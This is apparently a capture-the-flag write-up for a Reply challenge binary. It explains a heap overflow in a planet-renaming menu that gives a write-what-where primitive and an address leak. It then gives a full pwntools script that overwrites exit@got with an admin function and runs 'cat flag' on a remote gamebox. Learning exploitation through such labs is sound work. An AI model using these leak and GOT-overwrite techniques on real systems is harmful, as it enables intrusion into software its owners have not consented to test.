


# Intro

Protections:

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
<br>
After submitting the password "secret_passwd_anti_bad_guys" the game is initialized and menu is unlocked:

```shell
$ ./challs
Passwd: secret_passwd_anti_bad_guys
Welcome in a new dimension...
	...Boooom... the big bang sound...
		a new universe has begun, with new physics laws...
	...here stacks look safe!
What is your next move? (Help)
>Help
Help		print help menu
Exit		close the connection
Jump		move to the next plant
GetName		get planet name
Rename		rename planet
Check		check if you can overflow the stack
GoBack		move to the previous planet
Search		looking for Zer0
Nap		    Get a nap
Admin		Access as Admin
What is your next move? (Help)
>
```
<br>
Initialization:



So 11 planet are created. They reside in the heap and each of them has the following structure:

                            ---------------
                            | planet name |
                ---------------------------
                |           | &data_40d0  |
                ---------------------------
                | next      | previous    |
                ---------------------------

- planet name: string
- &data_40d0: pointer to the "stamina" data of the game, which reside in the .data section
- next: pointer to the next planet
- previous: pointer to the previous planet


the pointer to the current planet is stored in a .bss variable


# Vulnerability



The function for renaiming the current planet gets an arbitrary length input, so we can overflow the internal data of the planet structure. Since we can overwrite "next" pointer we have a Write What Where condition.
Partial Relro gives us the possibility to write in the GOT table.

# Strategy

- Rename: write 16 characters to fill planet name and space before &data_40d0
- Print planet name: this will leak &data_40d0 address so we can calculate addresses of exit in the GOT table and the function to execute commands
- Rename: use the overflow to overwrite data and modify "next" poi ter with exit@got address
- Jump: update current pointer to the next so to point at exit@got
- Rename: overwrite exit with the admin function to execute commands
- exit: exit from menu and send the command to execute


# Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("challs")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

gs = '''
c
'''

PADDING = b'A'*16


def conn():
    if args.LOCAL:
        r = gdb.debug("./challs", gdbscript=gs)
    else:
        r = remote("gamebox3.reply.it", 2692)
    return r


def rename(r, payload):
    r.sendlineafter(">", b'Rename')
    r.sendlineafter(b'Enter the new name\n', payload)
 

def leak(r):
    r.sendlineafter(">", b'GetName')
    r.recvuntil(b'AAAAAAAAAAAAAAAA')
    return u64(r.recvuntil(b'\n').strip(b'\n').ljust(8, b'\x00'))


def jump(r):
    r.sendlineafter(">", b'Jump')


def get_flag(r):
    r.sendlineafter(">", b'Exit')
    r.sendlineafter("> ", b'cat flag')
    r.interactive()


def main():
    r = conn()
    r.sendlineafter("Passwd: ", b'secret_passwd_anti_bad_guys')
    rename(r, PADDING)
    dataleak = leak(r)
    exit_got = dataleak - 0x40
    win = dataleak - 0x284A
    print("LEAK:.......",hex(dataleak))
    print("EXIT@GOT:...",hex(exit_got))
    print("WIN:........",hex(win))
    rename(r, PADDING + b'A'*8 + p64(exit_got))
    jump(r)
    rename(r, p64(win))
    get_flag(r)   


if __name__ == "__main__":
    main()
```

# Flag
`{FLG:jump_in_jump_to_Jump}`
